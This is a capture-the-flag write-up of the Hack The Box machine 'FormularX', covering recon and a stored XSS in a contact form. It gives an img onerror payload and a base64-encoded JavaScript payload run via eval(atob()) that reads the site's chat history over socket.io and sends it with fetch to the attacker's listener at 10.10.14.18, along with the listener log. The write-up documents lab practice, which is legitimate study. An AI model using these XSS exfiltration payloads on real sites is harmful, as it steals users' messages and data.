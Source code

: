 # Write-up FormularX 
**Hackthebox**

## Recon
Using nmap tools: `nmap -sV -A --min-rate 15000 -v $ip -oN /opt/nmap/formularx`
```shell
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 5f:b2:cd:54:e4:47:d1:0e:9e:81:35:92:3c:d6:a3:cb (ECDSA)
|_  256 b9:f0:0d:dc:05:7b:fa:fb:91:e6:d0:b4:59:e6:db:88 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-favicon: Unknown favicon MD5: 496A37014B10519386B2904D1B3086BE
|_http-cors: GET POST
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.18.0 (Ubuntu)
| http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_Requested resource was /static/index.html
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=3/12%OT=22%CT=1%CU=38765%PV=Y%DS=2%DC=T%G=Y%TM=65F0
OS:175E%P=x86_64-pc-linux-gnu)SEQ(SP=103%GCD=1%ISR=10A%TI=Z%CI=Z%II=I%TS=A)
OS:SEQ(SP=103%GCD=1%ISR=10B%TI=Z%CI=Z%II=I%TS=A)SEQ(SP=FF%GCD=1%ISR=109%TI=
OS:Z%CI=Z%II=I%TS=A)OPS(O1=M53CST11NW7%O2=M53CST11NW7%O3=M53CNNT11NW7%O4=M5
OS:3CST11NW7%O5=M53CST11NW7%O6=M53CST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88
OS:%W5=FE88%W6=FE88)ECN(R=Y%DF=Y%T=40%W=FAF0%O=M53CNNSNW7%CC=Y%Q=)T1(R=Y%DF
OS:=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z
OS:%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=
OS:Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%
OS:RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)
OS:IE(R=Y%DFI=N%T=40%CD=S)

Uptime guess: 46.071 days (since Fri Jan 26 02:07:55 2024)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=259 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 1723/tcp)
HOP RTT       ADDRESS
1   279.52 ms 10.10.14.1
2   279.74 ms 10.10.11.6
```

When i analysis this site at port 80, i see it use nodejs, expressjs and auth with jwt.
- Use `gobuster` enumurate file and dir -> see /restricted/chat.js
- From that file you redirect to contact page, you see xxs vul in this
how to know
1. fill firstname and lastname at textarea fill `<img src=x onerror="document.location='http:<yourmachine>:<port>/`"/>`
2. Listen http server, you can use `php -S 0.0.0.0:<port>` or `python -m http.server <port>`
3. click send -> you see in your terminal our server is received the request
=> From chat.js, write the payload get info important from the server.

```shell
┌──(toan㉿kali)-[~]
└─$ cat test.js                         
const script = document.createElement('script');
script.src='/socket.io/socket.io.js';
document.head.appendChild(script);
script.addEventListener('load', function() {
const res = axios.get( /user/api/chat");
const socket = io('/',{withCredentials: true});
socket.on('message', (my_message) => {fetch("http://10.10.14.18:8888/?d=" + btoa(my_message))}) ;
socket.emit('client_message', 'history');
});
```
- Encode this payload, `cat test.js | base64`.

- the atob func will decode base64
`{"first_name":"a","last_name":"asdf","message":"<img src=x onerror=\"eval(atob('<payload encode base64>'))\">"}`

```shell
┌──(toan㉿kali)-[~]
└─$ python -m http.server 8888
Serving HTTP on 0.0.0.0 port 8888 (http://0.0.0.0:8888/) ...
10.10.11.6 - - [12/Mar/2024 08:05:48] "GET /shell.js HTTP/1.1" 200 -
10.10.11.6 - - [12/Mar/2024 08:05:52] "GET /shell.js HTTP/1.1" 200 -
10.10.11.6 - - [12/Mar/2024 08:05:55] "GET /shell.js HTTP/1.1" 200 -
10.10.11.6 - - [12/Mar/2024 08:05:59] "GET /shell.js HTTP/1.1" 200 -
10.10.11.6 - - [12/Mar/2024 08:06:02] "GET /shell.js HTTP/1.1" 200 -
10.10.11.6 - - [12/Mar/2024 08:06:06] "GET /shell.js HTTP/1.1" 200 -
10.10.11.6 - - [12/Mar/2024 08:06:09] "GET /shell.js HTTP/1.1" 200 -
10.10.11.6 - - [12/Mar/2024 08:06:13] "GET /shell.js HTTP/1.1" 200 -
10.10.11.6 - - [12/Mar/2024 08:08:30] code 501, message Unsupported method ('OPTIONS')
10.10.11.6 - - [12/Mar/2024 08:08:30] "OPTIONS /?d=R3JlZXRpbmdzIS4gSG93IGNhbiBpIGhlbHAgeW91IHRvZGF5ID8uIFlvdSBjYW4gdHlwZSBoZWxwIHRvIHNlZSBzb21lIGJ1aWxkaW4gY29tbWFuZHM= HTTP/1.1" 501 -
10.10.11.6 - - [12/Mar/2024 08:08:30] code 501, message Unsupported method ('OPTIONS')
10.10.11.6 - - [12/Mar/2024 08:08:30] "OPTIONS /?d=SGVsbG8sIEkgYW0gQWRtaW4uVGVzdGluZyB0aGUgQ2hhdCBBcHBsaWNhdGlvbg== HTTP/1.1" 501 -
10.10.11.6 - - [12/Mar/2024 08:08:30] code 501, message Unsupported method ('OPTIONS')
10.10.11.6 - - [12/Mar/2024 08:08:30] "OPTIONS /?d=V3JpdGUgYSBzY3JpcHQgZm9yICBkZXYtZ2l0LWF1dG8tdXBkYXRlLmNoYXRib3QuaHRiIHRvIHdvcmsgcHJvcGVybHk= HTTP/1.1" 501 -
10.10.11.6 - - [12/Mar/2024 08:08:30] code 501, message Unsupported method ('OPTIONS')
10.10.11.6 - - [12/Mar/2024 08:08:30] "OPTIONS /?d=V3JpdGUgYSBzY3JpcHQgdG8gYXV0b21hdGUgdGhlIGF1dG8tdXBkYXRl HTTP/1.1" 501 -
10.10.11.6 - - [12/Mar/2024 08:08:30] code 501, message Unsupported method ('OPTIONS')
10.10.11.6 - - [12/Mar/2024 08:08:30] "OPTIONS /?d=TWVzc2FnZSBTZW50Ojxicj5oaXN0b3J5 HTTP/1.1" 501 -
10.10.11.6 - - [12/Mar/2024 08:08:34] code 501, message Unsupported method ('OPTIONS')
10.10.11.6 - - [12/Mar/2024 08:08:34] "OPTIONS /?d=R3JlZXRpbmdzIS4gSG93IGNhbiBpIGhlbHAgeW91IHRvZGF5ID8uIFlvdSBjYW4gdHlwZSBoZWxwIHRvIHNlZSBzb21lIGJ1aWxkaW4gY29tbWFuZHM= HTTP/1.1" 501 -
10.10.11.6 - - [12/Mar/2024 08:08:34] code 501, message Unsupported method ('OPTIONS')
10.10.11.6 - - [12/Mar/2024 08:08:34] "OPTIONS /?d=SGVsbG8sIEkgYW0gQWRtaW4uVGVzdGluZyB0aGUgQ2hhdCBBcHBsaWNhdGlvbg== HTTP/1.1" 501 -
10.10.11.6 - - [12/Mar/2024 08:08:34] code 501, message Unsupported method ('OPTIONS')
10.10.11.6 - - [12/Mar/2024 08:08:34] "OPTIONS /?d=V3JpdGUgYSBzY3JpcHQgZm9yICBkZXYtZ2l0LWF1dG8tdXBkYXRlLmNoYXRib3QuaHRiIHRvIHdvcmsgcHJvcGVybHk= HTTP/1.1" 501 -
10.10.11.6 - - [12/Mar/2024 08:08:34] code 501, message Unsupported method ('OPTIONS')
10.10.11.6 - - [12/Mar/2024 08:08:34] "OPTIONS /?d=V3JpdGUgYSBzY3JpcHQgdG8gYXV0b21hdGUgdGhlIGF1dG8tdXBkYXRl HTTP/1.1" 501 -
10.10.11.6 - - [12/Mar/2024 08:08:34] code 501, message Unsupported method ('OPTIONS')
10.10.11.6 - - [12/Mar/2024 08:08:34] "OPTIONS /?d=TWVzc2FnZSBTZW50Ojxicj5oaXN0b3J5 HTTP/1.1" 501 -
10.10.11.6 - - [12/Mar/2024 08:08:37] code 501, message Unsupported method ('OPTIONS')
.....
```

=>
```shell
R3JlZXRpbmdzIS4gSG93IGNhbiBpIGhlbHAgeW91IHRvZGF5ID8uIFlvdSBjYW4gdHlwZSBoZWxwIHRvIHNlZSBzb21lIGJ1aWxkaW4gY29tbWFuZHM=
SGVsbG8sIEkgYW0gQWRtaW4uVGVzdGluZyB0aGUgQ2hhdCBBcHBsaWNhdGlvbg=
V3JpdGUgYSBzY3JpcHQgZm9yICBkZXYtZ2l0LWF1dG8tdXBkYXRlLmNoYXRib3QuaHRiIHRvIHdvcmsgcHJvcGVybHk=
```
![img1](./img/img1.png)
=> you see subdomain `dev-git-auto-update.chatbot.htb`

- add this domain into `/etc/hosts`.type:  `echo "10.10.11.6 dev-git-auto-update.chatbot.htb"  | sudo tee -a /etc/hosts`. goto that site!
...